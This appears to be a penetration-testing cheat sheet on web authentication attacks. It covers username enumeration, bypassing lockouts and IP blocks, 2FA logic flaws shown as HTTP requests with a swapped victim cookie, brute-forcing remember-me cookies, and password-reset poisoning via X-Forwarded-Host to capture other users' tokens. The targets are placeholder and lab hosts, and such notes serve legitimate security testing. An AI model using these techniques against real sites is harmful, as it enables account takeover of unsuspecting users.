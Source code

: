 # Authentication

## <mark style="color:purple;">Usernames enumeration</mark>

Test in every features that interact with user account. E.g. login, password recovery.

**Default username**

```
admin
administrator
firstname.lastname@somecompany.com
```

***

**Regisitration form**&#x20;

Create account and see if there's error like "account already exists".

***

**Comparing responses**

Use a valid user and an invalid user (and incorrect password). One character out of place makes the messages distinct, even if not visible on the page.

{% hint style="success" %}
**Tip**: Use "Grep - match" in Burp Intruder to fetch the error message
{% endhint %}

***

**Account locking**

Try 3/5 login. If the account is locked, it could mean that there is.

***

**Response times**

A website may only check the password if the username is valid. So, entering an excessively long password causes a noticeable delay.

## <mark style="color:purple;">Passwords</mark>

[password-cracking.md](../../iv-miscellaneous/password-cracking.md "mention")

## <mark style="color:purple;">Account locking</mark>

**Guess password with locked account**&#x20;

With your account locked, send a request with an incorrect password and another with a correct password. Is the response different?

***

**IP blocked bypass**

* The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)&#x20;
* Try to bypass by adding `X-Forwarded-For` header

***

**With password change**

See if you can change the password of an arbitrary user. E.g. look for a hidden username paramer (control it). Brute-force password when you enter your current password.

{% hint style="success" %}
**Tip**: use your account and notice different behavior.

* current password: wrong, new-password-1=XXX, new-password-2=XXX
* current password: wrong, new-password-1=XXX, new-password-2=YYY
* current password: \<right>, new-password-1=XXX, new-password-2=XXX
* current password: \<right>, new-password-1=XXX, new-password-2=YYY
{% endhint %}

## <mark style="color:purple;">2FA</mark> <a href="#bypassing-two-factor-authentication" id="bypassing-two-factor-authentication"></a>

* **Brute-force OTP**
* **Bypassing two-factor authentication**&#x20;

Check if you can directly skip to "logged-in" pages.

* **Flawed logic**

```http
# 1 step - (REQUEST) Normal login with attacker account
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
[...]

username=attacker&password=qwerty
```

```http
# 1 step - (RESPONSE) The server sets cookie
HTTP/1.1 200 OK
Set-Cookie: account=attacker
```

```http
# 2 step - request two-factor
GET /login-steps/second HTTP/1.1
Cookie: account=attacker
```

```http
# 3 step - submit the two-factor code with victim cookie
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
[...]

verification-code=123456
```

## <mark style="color:purple;">Remember me option</mark>

* **Study your cookie and deduce how it is generated -** Sometimes this cookie is hashed or encoded (e.g. base64)
* **Brute-force other users' cookies to gain access to their accounts**

## <mark style="color:purple;">Password reset</mark>

**Control username parameter**

After you receive an email with the URL to reset your password, see if you can control username parameter.

```http
POST /forgot-pwd?temp-token=xxx HTTP/2
[...]

user=<victim>&new-pwd-1=<whatever>&new-pwd-2=<whatever>&token=xxx
```

***

**Resetting passwords using a URL (static token)**

Poor implementation can use guessable parameter: E.g. `http://vulnerable-website.com/reset-password?user=victim-user`

***

**Steal another user's token (for dynamic token)**

Add the `X-Forwarded-Host` header and see if it allows you to control the link generated by the app. This way, you can insert your website's URL so that when the user clicks on the link, they are directed to `http://your.website.com/reset-password?token=impredictabletoken`.

```http
POST /forgot-password HTTP/2
Host: 0ad400fb039bb5ea816cac4d00be00a8.web-security-academy.net
X-Forwarded-Host: your.website.com

username=lebron
```
